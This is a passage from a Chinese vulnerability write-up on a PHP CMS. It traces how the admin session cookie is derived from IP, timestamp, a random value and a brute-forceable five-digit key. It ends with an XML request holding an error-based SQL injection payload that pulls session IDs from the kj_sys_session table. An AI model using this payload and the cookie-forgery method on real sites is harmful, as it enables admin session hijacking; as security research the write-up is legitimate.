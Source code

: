 ```
    }
    return $arr_return;
}
```

$arr_fields 数组中获取登录的账号密码，继续跟进 on_login 方法

![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nZOA4RNx5uMP82mXCpVChgR42hEDCbEXicXFTibbj4EVDXyIypVq5ibtCSecfxW7FFow75vlOO9qFkPQ/640?wx_fmt=png)

$str_id 是通过 fun_get::safecode 方法来的，现在只需要 $perms[‘sid’] 是怎么来的，跟进查看，并没发现到什么，这里，我直接打印出 self::$perms[‘sid’] 的值，发现是 ip + 时间戳 + 随机数的形式

```
echo self::$perms['sid'];exit;
```

![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nZOA4RNx5uMP82mXCpVChgRQegqulLicF9nJ0h3Bno0icibugfylfiaKmrjiaicXwWBrCwBR1ptvHR4yKMQ/640?wx_fmt=png)

发现这里数据存放在数据库的 kj_sys_session 表中的 session_id 字段，而 session_user_id 表示是否登录在，1 表示登录在，0 表示退出了登录。

![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nZOA4RNx5uMP82mXCpVChgRmABBIjic2E3O7dkCZzficP3uFs3BpiaCE1VdFY0kI8HeGNlboLtuAwciaQ/640?wx_fmt=png)

我们有注入点，这个 session_id 我们可以通过注入来获取到的，现在跟进 fun_get::safecode 方法，看 cookie 中的 kj_s_id 是怎么加密的

![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nZOA4RNx5uMP82mXCpVChgRzkGvickAAIjqcuqGrFliccPe8ssRTiccry4kb6NiatglASIiavrhZvHoDJQ/640?wx_fmt=png)

跟进 $str_key 变量，看他是从哪里来的，跟进 cls_config::MD5_KEY，发现他来自 data\config\cfg.env.online.php 中的 MD5_KEY 常量。而这个常量是安装的时候随意 random 的五位数

![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nZOA4RNx5uMP82mXCpVChgRCtATuxcuwl7v5HyFoOcFwhibicw1was9fnjhibOs9cDiamRkiar6hfEQPzg/640?wx_fmt=png)

最后获取的 $str_return 是由 3 部分组成 $str_left，base64($msg_val)，$str_right，所以这个 $str_key 变量需要我们继续爆破，并且知道 fun_get::safecode 方法的 $msg_val 参数是 ip + 时间戳 + 随机数的形式，下面就进行漏洞复现。

#### **漏洞复现**

首先抓取目标站后台登录时的 cookie，如：NgMTE5LjYyLjEyNC4yMTE1OTgzNTI1NDM4NzUYTBjZmVkN2ZmMzY2OTYzYg，假设我的 ip 地址为`104.192.225.86`，通过 base64 为`MTAzLjE5Mi4yMjUuODY=`，去掉 =。本地经过测试发现 ip + 时间戳 + 随机数通过 base64 编码后为 36 位，所以上面的加密密文就为：

```
Ng
MTE5LjYyLjEyNC4yMTE1OTgzNTI1NDM4NzUY
TBjZmVkN2ZmMzY2OTYzYg
```

我们通过注入获取 $msg_val 参数和登录状态

```
<?xml version="1.0"?>
<note>
    <ToUserName>cccc</ToUserName>
    <FromUserName>1</FromUserName>
    <MsgType>event</MsgType>
    <Event>click</Event>
    <EventKey>1' and updatexml(1,concat(0x7e,(select concat(session_id,0x7e,session_user_id) from `kj_sys_session` order by session_user_id desc limit 0,1),0x7e),1)#</EventKey>
</note>
```
